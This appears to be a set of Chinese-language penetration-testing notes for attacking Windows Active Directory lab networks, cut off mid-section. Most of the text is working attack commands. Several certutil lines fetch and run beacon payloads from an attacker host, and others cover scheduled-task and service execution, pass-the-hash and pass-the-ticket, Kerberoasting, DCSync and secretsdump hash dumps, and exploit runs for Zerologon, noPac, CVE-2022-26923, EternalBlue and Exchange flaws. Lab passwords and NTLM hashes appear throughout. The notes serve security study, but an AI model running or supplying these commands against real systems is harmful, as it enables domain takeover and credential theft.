








## 基本概念

### 名词

#### 局域网

#### 工作组

#### 域环境

#### 活动目录AD

#### 域控制器DC

### 域

### 认知

## 基本架构

- 单域

- 父子域

- 域树

- 域森林

## 隧道技术

### SOCKS代理

优先使用cs、msf上传shell建立socks代理

### 内网穿透

frp

nps

chisel

以上工具也可快速建立socks代理作为替代

#### 代理隧道

若内网环境对出站流量有严格限制时，针对特定环境可选择的代理隧道技术

| **适用场景**  | **工具举例**                  | **关键技术点**            |                                    |
| :------------ | :---------------------------- | :------------------------ | ---------------------------------- |
| **Socks代理** | 通用内网渗透                  | CS/MSF、EarthWorm         | `proxychains`联动Nmap/Sqlmap       |
| **HTTP隧道**  | 仅允许80/443出网              | reGeorg、Tunna            | 流量伪装成正常HTTP请求             |
| **DNS隧道**   | 严格出网限制（仅允许DNS查询） | dnscat2、iodine           | 利用TXT记录传输数据                |
| **ICMP隧道**  | 限制TCP/UDP但允许Ping         | ptunnel                   | 数据封装在ICMP包中                 |
| **SSH隧道**   | 存在SSH服务且可登录           | `ssh -D 1080 user@target` | 动态端口转发（-D）或本地转发（-L） |

不同代理隧道技术的优缺点

| **协议**  | **适用场景**     | **优点**                | **缺点**                |
| :-------- | :--------------- | :---------------------- | :---------------------- |
| **Socks** | 通用内网渗透     | 支持全流量转发          | 依赖TCP，易被防火墙拦截 |
| **HTTP**  | 仅允许80/443出站 | 伪装成Web流量，隐蔽性强 | 高流量可能触发告警      |
| **DNS**   | 严格出站限制     | 绕过绝大多数防火墙      | 传输速度极慢            |
| **ICMP**  | 仅允许Ping       | 难以被完全封禁          | 需要Root/Admin权限      |

## 信息收集

### 基本信息

版本

补丁

网口

systeminfo 详细信息

  net start 启动服务t

  asjlist 进程列表

  schtasks 计划任务

### 对内凭据收集

### 对外打点

### AD域环境

## 横向移动

### 入口差异

#### 域外

- 提权
- 切换到域内用户
  - 获取域内用户凭据
  - 域内用户枚举（kerbrute）

#### 域内

- 提权获取凭据

### 基于口令凭证

- 利用条件
  - 被控机处于域内
  - 获得其它主机的信息（密码凭证、IP、主机名）

#### IPC

- 利用命令

  - net use \\server\ipc$ "password" /user:计算机名\username # 工作组

  - net use \\server\ipc$ "password" /user:域名\username #域内

  - dir \\xx.xx.xx.xx\C$\        # 查看文件列表

  - copy \\xx.xx.xx.xx\C$\1.bat 1.bat # 下载文件

  - copy 1.bat \\xx.xx.xx.xx\C$ # 复制文件

  - net use \\xx.xx.xx.xx\C$\1.bat /del # 删除IPC

  - net view xx.xx.xx.xx        # 查看对方共享

- 建立IPC链接

- 拷贝shell

  - 上传木马到目标主机

- 横向移动

  - 复制木马到域内其它主机

  - 创建计划任务执行脚本

    [at] & [schtasks]计划任务配合

    1、at < Windows2012

    copy beacon.exe \\192.168.3.32\c$ #拷贝执行文件到目标机器

    at \\192.168.3.21 15:47 c:\beacon.exe  #添加计划任务

    

    2、schtasks >=Windows2012

    shell copy beacon.exe \\192.168.3.32\c$ #拷贝执行文件到目标机器

    shell schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn beacon /sc DAILY /tr c:\beacon.exe /F #创beacon任务对应执行文件

    shell schtasks /run /s 192.168.3.32 /tn beacon /i #运行beacon任务

    connect 192.168.3.32 5454 #连接正向木马（如果上传的是正向shell）

    shell schtasks /delete /s 192.168.3.32 /tn beacon /f#删除beacon任务

- 删除IPC链接

- 拓展工具

  - impacket
    - 代理执行

- 具体利用

  域内用户权限测试：webadmin权限

  net use \\\192.168.3.32\ipc$ "admin!@#45" /user:sqlserver\administrator

  net use \\\192.168.3.32\ipc$ "admin!@#45" /user:god\dbadmin

  net use \\\192.168.3.32\ipc$ "admin!@#45" /user:administrator

  理解为登录域里的administrator而不是登录目标的administrator用户

  

  域外用户权限测试：administrator权限

  shell net use \\192.168.3.32\ipc$ "admin!@#45" /user:administrator 

  //登录本机administrator用户

  net use \\192.168.3.32\ipc$ "admin!@#45" /user:sqlserver\administrator  

  //登录sqlserver机器的administrator用户

  net use \\192.168.3.32\ipc$ "admin!@#45" /user:god\dbadmin

  //登录god域的administrator用户

- #建立IPC常见的错误代码

（1）5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限

（2）51：网络问题，Windows 无法找到网络路径

（3）53：找不到网络路径，可能是IP地址错误、目标未开机、目标Lanmanserver服务未启动、有防火墙等问题

（4）67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$

（5）1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除

（6）1326：账号密码错误

（7）1792：目标NetLogon服务未启动，连接域控常常会出现此情况

（8）2242：用户密码过期，目标有账号策略，强制定期更改密码

#### WMI

- 实验步骤

  - 反向木马连接webserver
  - 上传正向木马到webserver
  - 构造下载目录让sqlserver下载正向木马（通过webserver开启的80服务）

- 利用条件

  - WMI服务开启（135端口）
  - 防火墙允许通信
  - 知道目标机的账号密码或HASH

- 利用详情

  - wmic

    - 文件下载

      

      shell wmic /node:192.168.3.32 /user:sqlserver\administrator /password:admin!@#45 process call create "certutil -urlcache -split -f http://192.168.3.31/5454.exe c:/5454.exe"

    - 文件执行

      shell wmic /node:192.168.3.32 /user:sqlserver\administrator /password:admin!@#45 process call create "c:/5454.exe"

  - wmiexec-impacket（建立socks代理隧道）

    - python wmiexec.py sqlserver/administrator:admin!@#45@192.168.3.32

      python wmiexec.py sqlserver/administrator:admin!@#45@192.168.3.32 "whoami"

      python wmiexec.py -hashes :518b98ad4178a53695dc997aa02d455c sqlserver/administrator@192.168.3.32 "whoami"

      下载后门：

      python wmiexec.py sqlserver/administrator:admin!@#45@192.168.3.32 "certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"

      执行后门：

      python wmiexec.py sqlserver/administrator:admin!@#45@192.168.3.32 "c:/beacon.exe"

#### SMB

- 利用条件

  - 文件与打印机服务开启

  - 防火墙允许通信（135、445）

  - 知道目标机的账号密码或HASH

- 利用详情

  - smbexec-impacket

    - python smbexec.py sqlserver/administrator:admin!@#45@192.168.3.32

      python smbexec.py -hashes :518b98ad4178a53695dc997aa02d455c sqlserver/administrator@192.168.3.32

  - cs插件-psexec

  

#### DCOM

- 利用条件

  - 适用win7及以上系统
  - 管理员权限powershell
  - 远程主机防火墙未阻止

- 具体命令

  - python dcomexec.py sqlserver/administrator:admin!@#45@192.168.3.32

    python dcomexec.py sqlserver/administrator:admin!@#45@192.168.3.32 whoami

    python dcomexec.py sqlserver/administrator:@192.168.3.32 whoami -hashes :518b98ad4178a53695dc997aa02d455c

#### winrs&winrm

- 利用条件

  - win2012之前需手动开启

    - 开启命令

      winrm quickconfig -q

      winrm set winrm/config/Client @{TrustedHosts="*"}

  - 5986、5985端口开启

- 具体命令

  - 连接执行：通过winrs来执行远程命令

    winrs -r:192.168.3.32 -u:192.168.3.32\administrator -p:admin!@#45 whoami

    winrs -r:192.168.3.21 -u:192.168.3.21\administrator -p:Admin12345 whoami

  - 上线C2:

    winrs -r:192.168.3.32 -u:192.168.3.32\administrator -p:admin!@#45 "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/4444.exe 4444.exe & 4444.exe"

  - cs命令（以上命令用不了）

    shell winrm invoke Create wmicimv2/win32_process @{CommandLine="cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/3389.exe 3389.exe & 3389.exe"} -r:sqlserver -u:sqlserver\administrator -p:admin!@#45

#### rdp

- 利用条件

  - 开启rdp、远程桌面服务

- 在本机远程连接

  - socks代理

  - 端口转发（http隧道，直接上传文件到被控机就行了，其它的像iox等内网穿透工具就需要工具落地目标机）

    

#### 综合测试工具

- CrackMapExec-密码喷射

  - proxychains4 crackmapexec smb 192.168.3.21-32 -u user.txt -H 518b98ad4178a53695dc997aa02d455c #域用户HASH登录

    proxychains4 crackmapexec smb 192.168.3.21-32 -u administrator -p 'admin!@#45' --local-auth #本地用户明文登录

    proxychains4 crackmapexec smb 192.168.3.21-32 -u administrator -p 'admin!@#45' --local-auth -x "whoami" #本地用户明文登录并执行命令

    proxychains4 crackmapexec smb 192.168.3.21-32 -u administrator -H 518b98ad4178a53695dc997aa02d455c --local-auth #本地用户HASH登录

    proxychains4 crackmapexec smb 192.168.3.21-32 -u user.txt -H 518b98ad4178a53695dc997aa02d455c --local-auth -x "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/4444.exe 4444.exe & 4444.exe"

    proxychains4 crackmapexec smb 192.168.3.21-32 -u administrator -p pass.txt --local-auth -x "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/4444.exe 4444.exe & 4444.exe"

    proxychains4 crackmapexec smb 192.168.3.21-32 -u user.txt -H 518b98ad4178a53695dc997aa02d455c --local-auth --users

- Minikatz

当系统为win10或者2012R2以上，内存中默认禁止缓存明文密码

可通过修改注册表的方式进行抓取，但需重启后重新登录时才能抓取。

windows 2012以上默认关闭了Wdigest，所以攻击者无法通过内存获取到明文密码

为了针对以上情况 所以有四种方法解决：

1.利用（PTH,PTK）等进行移动不需要明文

2.利用其他服务协议（SMB/WMI等进行哈希移动）

3.利用注册表开启（wdigest auth）进行获取、

4.利用工具或者第三方平台（HASHCAT进行破解获取）

#### pth（哈希传递攻击）

- HASH差异

​	

- 利用思路
  - 利用套件工具直接利用Hash传递
    - mimikatz
    - impacket-at&ps&wmi&smb
  - hash暴力破解明文
    - hashcat
  - 修改注册表重启进行获取明文

#### ptt（票据传递攻击）

- 利用思路

  - MS14-068漏洞

    - 获取SID值：shell whoami/user

    - 生成票价文件：

      - shell ms14-068.exe -u 域名 -s SID值 -d IP -p 密码
      - shell ms14-068.exe -u webadmin@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1132 -d 192.168.3.21 -p admin!@#45

    - 清除票价连接

      - shell klist purge

    - 内存导入票据

      - mimikatz kerberos::ptc TGT_webadmin@god.org.ccache

    - 连接目标上线

      - shell dir \\OWA2010CN-GOD\c$

        shell net use \\OWA2010CN-GOD\C$

        copy beacon.exe \\OWA2010CN-GOD\C$

        sc \\OWA2010CN-GOD create bindshell binpath= "c:\beacon.exe"

        sc \\OWA2010CN-GOD start bindshell

  - kekeo-利用NTLM生成新的票据认证，前提是有与域控主机连接遗留的票据

    - 生成票据
      - shell kekeo "tgt::ask /user:Administrator /domain:god.org /ntlm:ccef208c6485269c20db2cad21734fe7" "exit"
    - 导入票据
      - shell kekeo "kerberos::ptt TGT_Administrator@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi" "exit"
    - 查看票据
      - shell klist
    - 利用票据连接
      - shell dir \\owa2010cn-god\c$

  - mimikatz

    - 导出票据
      - mimikatz sekurlsa::tickets /export
    - 导入票据
      - mimikatz kerberos::ptt C:\Users\webadmin\Desktop\[0;22d3a]-2-1-40e00000-Administrator@krbtgt-god.org.kirbi
    - 查看票据
      - shell klist
    - 利用票据连接
      - shell dir \\owa2010cn-god\c$

  - Rubeus-利用通讯的加密类型票据进行爆破明文

    - Kerberos攻击条件：

      - 采用**rc4**加密类型票据，使用工具Rubeus&impacket检测或看票据加密类型

      - Kerberoasting 攻击的利用：

        •SPN服务发现

        •请求服务票据

        •服务票据的导出

        •服务票据的暴力破解

    - 具体利用

      - 1、扫描：

        powershell setspn -T 0day.org -q */*

        powershell setspn -T 0day.org -q */* | findstr "MSSQL"

        2、检测加请求：

        Rubeus kerberoast

        impacket-getuserspns

        请求所有SPN服务器，并找到能破解的票据格式保存到hash.txt

        python GetUserSPNs.py -request -dc-ip 192.168.3.142 0day.org/jack:admin!@#45 -outputfile hash.txt

        3.手工请求：（要产生票据文件）

        powershell Add-Type -AssemblyName System.IdentityModel

        powershell New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-DB-0day.0day.org:1433"

        mimikatz kerberos::ask /target:MSSQLSvc/SqlServer.god.org:1433

        4.导出：

        mimikatz kerberos::list /export

        5.破解：

        文件票据：python tgsrepcrack.py pass.txt "xx.kirbi"

        HASH密文：hashcat -m 13100 hash.txt pass.txt --force

        5.重写：(后续讲到)

        https://www.freebuf.com/articles/system/174967.html

#### ptk（密钥传递攻击）

- 条件

  - PTK = Pass The Key，当系统安装了KB2871997补丁且禁用了NTLM的时候，那我们抓取到的ntlm hash也就失去了作用，但是可以通过PTK的攻击方式获得权限。

- 命令

  mimikatz sekurlsa::ekeys

  mimikatz sekurlsa::pth /user:域用户名 /domain:域名 /aes256:aes256值

### 基于漏洞

#### NTML Relay

- 流程
  - **捕获**Net-NTML Hash数据
    - 强制请求漏洞
    - 被动钓鱼：文件、网页、命令
  - **重放**脚本攻击主机
    - 攻击失败则暴力**破解**Net-NTML Hash以备后续

#### 域控提权漏洞

##### CVE-2020-1472

- 获得计算机名
  - net group "domain controllers" /domain
- Socks代理
  - 修改Hosts绑定域名和IP
- 连接DC清空凭证
  - python cve-2020-1472-exploit.py OWA2010CN-GOD 192.168.3.21
- 获取域内HASH（无凭证）-impacket
  - python secretsdump.py "god.org/owa2010cn-god$@192.168.3.21" -no-pass
- PTH连接域控-impacket
  - python wmiexec.py -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21
- 真实环境还有恢复密码

##### CVE-2021-42287

- Socks代理
  - 修改Hosts绑定域名和IP
- noPac-python
  - python noPac.py -use-ldap "god.org/webadmin:admin!@#45" -dc-ip 192.168.3.21 -shell
- sam-python（linux）-修改proxychains绑定socks代理
  - proxychains4 python sam_the_admin.py god/'webadmin:admin!@#45' -dc-ip 192.168.3.21 -shell

##### CVE-2022-26923

- 原理：Windows系统的Active Directory证书服务（CS）在域上运行

- 前提

  - 一个域内普通账号
  - 域内存在证书服务器

- 利用

  - CS中获取CA结构名和计算机名

    shell certutil

    powershell Get-ChildItem Cert:\LocalMachine\Root\

  - 申请低权限用户证书-certipy 3版本，使用kali2022及以下

    - certipy req 'xiaodi.lab/test:Pass123@dc.xiaodi.lab' -ca xiaodi-DC-CA -template User -debug

  - 检测证书

    - certipy auth -pfx test.pfx -dc-ip 192.168.3.111

  - 创建机器账户

    - python3 bloodyAD.py -d xiaodi.lab -u test -p 'Pass123' --host 192.168.3.111 addComputer machine_account 'machine_pass*'

  - 设置机器账号属性（dNSHostName和DC一致）

    - python3 bloodyAD.py -d xiaodi.lab -u test -p 'Pass123' --host 192.168.3.111 setAttribute 'CN=pwnmachine,CN=Computers,DC=xiaodi,DC=lab' dNSHostName '["DC.xiaodi.lab"]'

  - 再次申请证书

    - certipy req 'xiaodi.lab/pwnmachine$:CVEPassword1234*@192.168.3.111' -template Machine -dc-ip 192.168.3.111 -ca xiaodi-DC-CA -debug

  - 检测证书

    - certipy auth -pfx ./dc.pfx -dc-ip 192.168.3.111

  - 导出HASH

    - python3 secretsdump.py 'xiaodi.lab/dc$@DC.xiaodi.lab' -hashes :10e02bef2258ad9b239e2281a01827a4

  - 利用HASH

    - python3 wmiexec.py xiaodi.lab/administrator@192.168.3.111 -hashes aad3b435b51404eeaad3b435b51404ee:e6f01fc9f2a0dc96871220f7787164bd

##### CVE-2017-0146

- cs联动msf-设置监听器，msf监听，cs使用命令spawn cs->msf发送给msf

  

- msf监听

  - use exploit/multi/handler

    set payload windows/meterpreter/reverse_http

    set lhost 0.0.0.0

    set lport 4444

- 添加路由

  - run post/multi/manage/autoroute //添加当前路由表
  - run autoroute -p //查看当前路由表

- 利用模块

  - use exploit/windows/smb/ms17_010_eternalblue

    set payload windows/x64/meterpreter/bind_tcp //正向连接上线

  - 分别设置rhosts和rhost为目标ip

#### Exchange服务漏洞

- 信息收集

  - 端口扫描-25/587/2525
  - SPN扫描
    - powershell setspn -T 0day.org -q */*
  - 脚本探针
    - python Exchange_GetVersion_MatchVul.py 192.168.3.142

- 有凭据（账号密码）利用

  - 钓鱼
  - CVE-2020-0688
    - 前提：Exchange Server 2010 SP3/2013/2016/2019
    - 使用：
      - 获得凭据
      - 使用脚本：python cve-2020-0688.py 192.168.3.144 micle@rootkit.org Admin12345 calc
      - 利用ysoserial使用命令生成反序列化命令
      - 将命令继续在cve-2020-0688.py使用，进行远程反序列化
  - CVE-2020-17144
    - 前提：只能**Exchange2010**能用
    - 使用
      - 获得凭据
      - 使用脚本：CVE-2020-17144.exe OWA2010SP3.0day.org jack admin!@#45
      - 会在目标文件夹生成相应的木马文件

- 无凭据利用

  - 暴力破解

- ProxyShell 漏洞利用链

  - CVE-2021-34473 Microsoft Exchange ACL绕过漏洞

    CVE-2021-34523 Microsoft Exchange权限提升漏洞

    CVE-2021-31207 Microsoft Exchange授权任意文件写入漏洞。

### 基于配置

#### 委派

- 配置前提

  - 委派
  - 如无委派可用命令setspn -U -A priv/test 用户名

  

##### 非约束委派

- 委派判断

  - 查询域内设置了非约束委派的服务账户：

    AdFind -b "DC=god,DC=org"（域控名） -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn

  - 查询域内设置了非约束委派的机器账户:

    AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn

- 利用思路

  - 诱使管理员访问受控机-留下域控的信息痕迹

    - 利用前提

      - 需要Administrator权限

        域内主机的机器账户开启非约束委派

        域控管理员远程访问（主动或被动）

    - 利用方法

      - 域控主机主动触发：net use \\webserver
      - 被控机钓鱼触发

    - 具体步骤

      - 导出票据到被控机

        mimikatz sekurlsa::tickets /export

      - 导入票据到内存

        mimikatz kerberos::ptt 前缀-Administrator@krbtgt-GOD.ORG.kirbi

      - 连接域控

        shell dir \\域控名-域名\c$

  - 打印机漏洞

    - 利用条件

      - DC 2012以上

        Administrator权限监听

        打印机服务spooler开启（默认开启）

    - 具体利用

      - 监听来自DC的请求数据并保存文件

        shell Rubeus.exe monitor /interval:2 /filteruser:dc$ >hash.txt

        域用户运行SpoolSample强制让DC请求

        shell SpoolSample.exe dc web2016

      - Rubeus监听到票据并导入该票据

        shell Rubeus.exe ptt /ticket:xxx

      - 使用mimikatz导出域内Hash

        mimikatz lsadump::dcsync /domain:xiaodi8.com /all /csv

      - 使用wmi借助hash横向移动

        python wmiexec.py -hashes :0b17b318cd59bb4e90f5a528437481a9 xiaodi8.com/administrator@dc.xiaodi8.com -no-pass

  - 结合PetiPotam

##### 约束委派

- 委派判断

  - 查询机器用户（主机）配置约束委派

    AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto

  - 查询服务账户（主机）配置约束委派

    AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto

- 漏洞配置

  - 机器设置仅信任此计算机指定服务-cifs
  - 用户设置仅信任此计算机指定服务-cifs

- 利用思路：使用机器账号票据

- 利用前提

  - kekeo Rubeus getST

  - 需要Administrator权限

    目标机器账户配置了约束性委派

- 利用方法-kekeo需在受控机落地，其他的域名、密码等需要修改

  - 获取webadmin用户的票据

    kekeo "tgt::ask /user:webadmin /domain:god.org /password::admin!@#45 /ticket:administrator.kirbi" "exit"

    kekeo "tgt::ask /user:webadmin /domain:god.org /NTLM:518b98ad4178a53695dc997aa02d455c /ticket:administrator.kirbi" "exit"

  - 利用webadmin用户票据请求获取域控票据

    kekeo "tgs::s4u /tgt:TGT_webadmin@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi /user:Administrator@god.org /service:cifs/owa2010cn-god" "exit"

    kekeo "tgs::s4u /tgt:TGT_webadmin@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi /user:Administrator@god.org /service:cifs/owa2010cn-god.god.org" "exit"

  - 导入票据到内存

    

    mimikatz kerberos::ptt TGS_Administrator@god.org@GOD.ORG_cifs~owa2010cn-god.god.org@GOD.ORG.kirbi

  - 连接通讯域控

    shell dir \\owa2010cn-god\c$

##### 基于资源的约束委派 

###### 同用户不同机器

- 利用条件-SID值相同

  - 查询被域用户创建的机器账户列表:

    shell AdFind.exe -b "DC=xiaodi,DC=local" -f "(&(samAccountType=805306369))" cn mS-DS-CreatorSID

    根据查询出来的sid找出对应的用户名：

    shell AdFind.exe -b "DC=xiaodi,DC=local" -f "(&(objectsid=S-1-5-21-1695257952-3088263962-2055235443-1104))" objectclass cn dn

- 具体利用

  - 增加机器用户-申请票据

    - \# 使用addcpmputer创建机器账户

